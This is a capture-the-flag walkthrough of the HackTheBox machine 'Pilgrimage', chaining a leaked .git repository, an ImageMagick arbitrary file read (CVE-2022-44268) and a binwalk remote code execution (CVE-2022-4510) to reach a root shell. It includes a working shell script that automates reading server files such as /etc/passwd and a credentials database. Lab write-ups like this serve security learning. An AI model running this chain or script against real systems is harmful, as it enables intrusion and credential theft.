

# INITIAL ACCESS

## DISCOVERY

Nmap scan showed ports 22 and 80 open. Port 80 pointed to "pilgrimage.htb", which was added to `/etc/hosts`


The landing page revealed that the website was shrinking images provided by users.


A directory brute force revealed a `.git` directory, which could be cloned for better analysis.


Using git-dumper, the source files were obtained

```sh
pip install git-dumper
./git-dumper <url> <output-dir>
```


Investigating the files, it was discovered that a `magick` binary was used on `index.php`


Indeed, this file was included in the git dump and was discovered to be a vulnerable version of ImageMagick.


## EXPLOIT 1 - IMAGEMAGICK ARBITRARY FILE READ (CVE-2022-44268)

A public repository was available with an exploit for Arbitrary File Read on ImageMagic. https://github.com/voidz0r/CVE-2022-44268

Following the instructions, it was possible to retrieve the local `/etc/passwd` file using these steps:
1. generate a malicious image
2. upload the malicious image to the website
3. retrieve the "shrunk" file
4. analyze the file with exiftool
5. decode the hex string


To automate this process, the following script was created to analyze local files:

```sh
#!/bin/zsh
mkdir loot 2>/dev/null
cargo run $1
file_id=$(curl http://pilgrimage.htb -F 'toConvert=@image.png' -i | grep -o 'message=http://.*&' | cut -d "/" -f 5 | tr -d "&")
wget http://pilgrimage.htb/shrunk/$file_id
hex=$(exiftool $file_id| grep "Raw Profile Type" | cut -d "." -f "4-" | tr -d ".")
file_name=$(echo $1 | sed 's/\//_/g')
file_contents=$(python3 -c "open(\"loot/$file_name\",\"wb\").write(bytes.fromhex(\"$hex\"))")
strings loot/$file_name
rm $file_id
```

Using this, the file `/var/db/pilgrimage` was extracted, which contained the password for the user **emily**.


# PRIVILEGE ESCALATION

## DISCOVERY

Enumerating the processes running on the machine, it was discovered that root had a custom binary running at `/usr/sbin/malwarescan.sh`



The compromised user had read permissions over that file. In summary, `malwarescan.sh` analyzed the files uploaded to `/var/www/pilgrimage.htb/shrunk` and passed them to `binwalk` to identify potential malware signatures.


However, the binwalk version running on the remote host was deprecated and vulnerable.


## EXPLOIT 2 - BINWALK v2.3.2 REMOTE CODE EXECUTION (CVE-2022-4510)

Once again, there was a publicly available exploit for the detected vulnerability. https://www.exploit-db.com/exploits/51249

The exploit was downloaded to the remote host and a dummy file `img.png` was created to store the payload.

The exploit generated a `binwalk_exploit.png` file, which was copied to `/var/www/pilgrimage.htb/shrunk`. As mentioned before, this triggered the `malwarescan.sh` run by root, which passed the malicious image to `binwalk`, giving back a remote shell with root privileges.


